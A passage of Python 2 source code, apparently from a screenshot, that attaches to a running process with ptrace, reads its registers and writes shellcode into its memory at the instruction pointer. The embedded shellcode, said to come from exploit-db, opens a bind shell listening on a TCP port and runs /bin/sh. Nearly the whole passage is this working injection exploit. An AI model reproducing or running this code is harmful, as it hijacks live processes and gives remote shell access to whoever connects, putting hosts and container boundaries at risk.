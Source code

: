 ```python
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
        ("rsp", ctypes.c_ulonglong),
        ("ss", ctypes.c_ulonglong),
        ("fs_base", ctypes.c_ulonglong),
        ("gs_base", ctypes.c_ulonglong),
        ("ds", ctypes.c_ulonglong),
        ("es", ctypes.c_ulonglong),
        ("fs", ctypes.c_ulonglong),
        ("gs", ctypes.c_ulonglong),
    ]


libc = ctypes.CDLL("libc.so.6")

pid = int(sys.argv[1])

# Define argument type and respone type.
libc.ptrace.argtypes = [
    ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p
]
libc.ptrace.restype = ctypes.c_uint64

# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers = user_regs_struct()

# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))

print("Instruction Pointer: " + hex(registers.rip))

print("Injecting Shellcode at: " + hex(registers.rip))

# Shell code copied from exploit db.
shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"

# Inject the shellcode into the running process byte by byte.
for i in xrange(0, len(shellcode), 4):

    # Convert the byte to little endian.
    shellcode_byte_int = int(shellcode[i:4 + i].encode('hex'), 16)
    shellcode_byte_little_endian = struct.pack(
        "<I", shellcode_byte_int).rstrip('\x00').encode('hex')
    shellcode_byte = int(shellcode_byte_little_endian, 16)

    # Inject the byte.
    libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip + i),
                shellcode_byte)
```
